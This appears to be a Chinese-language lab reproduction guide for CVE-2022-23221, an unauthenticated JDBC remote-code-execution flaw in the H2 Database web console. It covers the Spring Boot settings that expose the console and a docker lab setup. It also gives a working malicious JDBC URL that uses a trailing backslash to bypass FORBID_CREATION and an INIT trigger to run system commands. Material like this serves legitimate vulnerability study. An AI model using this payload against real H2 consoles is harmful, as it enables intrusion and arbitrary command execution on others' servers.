


# H2 Database Web Console 未授权 JDBC 攻击导致远程代码执行（CVE-2022-23221）

H2 Database 是一个快速、开源的基于 Java 的关系型数据库管理系统（RDBMS），可用于嵌入式（集成在 Java 应用中）和客户端 - 服务器模式。

当 Spring Boot 集成 H2 Database 时，如果设置如下选项，将会启用 Web 管理页面：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

在 1.4.198 版本中，H2 Web 控制台限制了文件数据库的创建和内存数据库的连接，从而修复了 [CVE-2018-10054](../CVE-2018-10054) 漏洞。然而，在 1.4.198 至 2.1.210（不含）版本中，攻击者仍可通过 JDBC 攻击和一些技巧绕过该限制，进而执行任意代码。

参考链接：

- <https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf>
- <https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html>
- <https://github.com/h2database/h2database/releases/tag/version-2.1.210>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## 环境搭建

执行如下命令启动一个集成了 H2 Database 2.0.206 版本的 Spring Boot：

```
docker compose up -d
```

容器启动后，Spring Boot 服务监听在 `http://your-ip:8080`，H2 管理页面默认地址为 `http://your-ip:8080/h2-console/`。

## 漏洞复现

在复现本漏洞前，可以先确认 [CVE-2018-10054](../CVE-2018-10054) 中的 payload 已无法利用，因为 1.4.197 之后内存数据库被禁用：



自 1.4.197 版本起，H2 控制台会默认在 JDBC URL 后追加 `;FORBID_CREATION=TRUE`，阻止文件数据库的创建和内存数据库的连接。但攻击者可以在 JDBC URL 末尾添加一个反斜杠 `\`，扰乱 URL 语法，使 FORBID_CREATION 被忽略。

结合该技巧与 JDBC 攻击，可以构造如下恶意 JDBC URL：

```
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;AUTHZPWD=\
```

在 Web 控制台登录时，使用上述 URL 即可执行任意命令（注意换行）：


